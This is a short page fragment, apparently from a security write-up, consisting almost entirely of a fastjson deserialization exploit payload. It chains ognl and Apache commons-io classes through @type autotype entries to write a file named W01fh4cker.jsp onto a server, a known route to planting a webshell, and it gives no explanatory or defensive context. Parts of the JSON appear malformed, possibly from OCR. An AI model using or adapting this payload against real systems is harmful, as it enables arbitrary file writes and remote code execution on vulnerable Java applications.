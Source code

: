 ```plain
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},}
```

[![](assets/1706254407-4dba3f03704bdc813227696837032218.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021212732555.png)
